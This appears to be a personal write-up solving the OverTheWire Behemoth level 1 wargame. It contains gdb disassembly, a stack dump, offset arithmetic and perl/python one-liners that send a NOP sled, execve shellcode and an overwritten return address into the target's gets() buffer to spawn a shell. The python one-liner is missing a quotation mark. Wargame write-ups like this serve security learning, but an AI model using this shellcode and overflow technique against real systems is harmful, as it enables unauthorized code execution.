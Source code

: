 URL: http://www.overthewire.org/wargames/behemoth/behemoth1.shtml

Comment from me:
	- file is located at: /behemoth/behemoth1
	- debug using gdb
   
	   0x080483f4 <+0>:	push   %ebp
	   0x080483f5 <+1>:	mov    %esp,%ebp
	   0x080483f7 <+3>:	and    $0xfffffff0,%esp
	=> 0x080483fa <+6>:	sub    $0x60,%esp
	   0x080483fd <+9>:	mov    $0x80484f0,%eax
	   0x08048402 <+14>:	mov    %eax,(%esp)
	   0x08048405 <+17>:	call   0x8048320 <printf@plt>
	   0x0804840a <+22>:	lea    0x1d(%esp),%eax
	   0x0804840e <+26>:	mov    %eax,(%esp)
	   0x08048411 <+29>:	call   0x8048300 <gets@plt>
	   0x08048416 <+34>:	movl   $0x80484fc,(%esp)
	   0x0804841d <+41>:	call   0x8048330 <puts@plt>
	   0x08048422 <+46>:	mov    $0x0,%eax
	   0x08048427 <+51>:	leave  
	   0x08048428 <+52>:	ret  

	when try running it in gdb
	Password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

	Breakpoint 2, 0x08048416 in main ()
	(gdb) x/30wx $esp
	0xffffd6d0:	0xffffd6ed	0x000a0000	0x00010000	0xf7fd2ff4
	0xffffd6e0:	0xf7f80b19	0xf7ea2ab5	0xffffd6f8	0x61616165
	0xffffd6f0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd700:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd710:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd720:	0xf7006161	0xf7feed80	0x0804843b	0xf7fd2ff4
	0xffffd730:	0x08048430	0x00000000	0xffffd7b8	0xf7e89e37
	0xffffd740:	0x00000001	0xffffd7e4
	(gdb) 

	- $ebp = 0xffffd738   , have previous value of 0xffffd7b8
	- save EIP = 0xffffd73c
	- $esp = 0xffffd6d0

	- after call gets@plt, the address at 0xffffd6ec is replaced. This is the variable for gets()
	- $ebp is at 0xffffd738
	- ret is at 0xffffd73c
	- from 0xffffd6ec to 0xffffd73c is 80 chars long, and to override EIP needs 4 chars more

	#shellcode
	\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x31\xc9\xcd\x80

	#old EBP value (backward)
	\xb8\xd7\xff\xff

	#return address (backward)
	\xed\xd6\xff\xff

	Structure would be (total of 84)
	[NOP1 SHELLCODE NOP2 OLD_EBP NEW_EIP]

	total NOPs available is 84-(33+4+4) = 84 - 41 = 43
	"\x90"*43

	perl -e 'print "\x90"*43; print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x31\xc9\xcd\x80"; print "\xb8\xd7\xff\xff"; print "\xed\xd6\xff\xff";' | ./behemoth1

	python -c 'print "\x90"*48 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" +"\xb8\xd7\xff\xff" + "\xed\xd6\xff\xff";' | ./behemoth1